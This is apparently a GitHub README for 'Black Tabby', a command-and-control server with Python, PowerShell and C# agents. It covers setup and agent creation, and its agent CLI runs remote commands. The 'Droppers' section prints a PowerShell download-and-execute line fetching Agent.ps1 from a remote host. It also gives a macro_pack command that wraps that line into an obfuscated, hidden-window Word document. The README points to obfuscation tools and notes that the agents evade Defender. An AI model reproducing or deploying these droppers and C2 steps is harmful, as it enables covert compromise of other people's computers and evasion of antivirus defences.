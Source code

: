 # Black Tabby

Black Tabby is a Command & Control Server written in Python with agents written in python, powershell, C#


[![asciicast](https://asciinema.org/a/Cd53d45U1azyUZvlcbGdnOxDv.svg)](https://asciinema.org/a/Cd53d45U1azyUZvlcbGdnOxDv)





### Prerequisites
```
Docker
Python3
```

### Quick Setup

[![asciicast](https://asciinema.org/a/SeczUZSRttACRtMebp6S1iErA.svg)](https://asciinema.org/a/SeczUZSRttACRtMebp6S1iErA)

After Run BlackTabby.py to create the CouchDB View


### Setup

After docker and python3 is on your machine all you need to do is clone this repo and run the setup.sh file

```
git clone https://github.com/latortuga71/Black_Tabby.git
cd Black_Tabby
chmod +x setup.sh
pip3 -r install requirements.txt
./setup.sh
```

Then you will be asked to set the username & password for the CouchDB container and it will run on port 5984 of your local machine
It will also ask you for two secrets, a user-agent secret and an agent secret, these are very importing and are used when creating agents
so they can authenticate to your flask server. Which in turn communicates to the CouchDB container

![](https://github.com/latortuga71/Black_Tabby/blob/master/setup1.JPG)

After that has successfully completed run the following command
```
python3 BlackTabby.py
```
You will be asked for the credentials provided as well as the ip address and port that the CouchDB container is running on which should be 127.0.0.1 5984 unless you set this up to run on a different server that the CLI interface will be running on. This will create a view in CouchDB that is neccesary for the CLI to function properly.

## Agents
So far the only agents that can be created through the CLI are python and powershell, i wrote a C# agent that has my loopback hardcoded, as well as the agent secrets if this is edited to suite anyones needs then it can also be used. The C# source folder is [Here](https://github.com/latortuga71/Black_Tabby/tree/master/Agents/C%23AGENT/CSHARPAGENT)

## Droppers
In the DropperStuff folder i was able to create word doc that ran the following code as a way of executing the powershell agent.

```
IEX(New-Object Net.WebClient).downloadString('http://10.0.0.150/Agent.ps1') 
```
I came across [MacroPack](https://github.com/sevagas/macro_pack) which creates and obfuscates dropper files for you go ahead and check it out is pretty awesome. That in conjunction with [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) is a great combo. Below is command i used in macropack specifically.

```
echo "powershell.exe -windowstyle Hidden -c IEX(New-Object Net.WebClient).downloadString('http://10.0.0.150/Agent.ps1') -WindowStyle Hidden" | macro_pack.exe -t CMD -o -G  cmd.doc
```

## Creating Agents

There is an option on the CLI that allows you to create agents, it will ask you for the ip address and port it will be connecting to. In this case you do not enter the port 5984 which is CouchDB you would enter 9000 which is the flask server.
So if you are running the CLI and Server on same host, you would enter 127.0.0.1 and port 9000. After you will be asked for the two secrets specified during the bash setup script.

## Agent CLI (Work in progress)

Once you have connected to an agent just enter ? to see a list of options
* execute followed by a command will run a command and return the result
```
execute cmd
```
* get_all will return the full database document for that agent
* export json will write the json to a file.
```
export_json /tmp/json_output.txt
```

![](https://github.com/latortuga71/Black_Tabby/blob/master/setup3.JPG)

## Does it trigger antivirus tho?
As far as i know, the powershell and c# agents themselves dont trigger defender.

## Full Explanation eventually

Will write out full explanation eventually on blog for now below diagram is pretty good.
```

           ------------ 
           V           |
Agent -> Flask ---> CouchDB
 ^           |
 |           |
 |   	  V
 |   	  V
 ^           |
 |           |
 | <----------





```



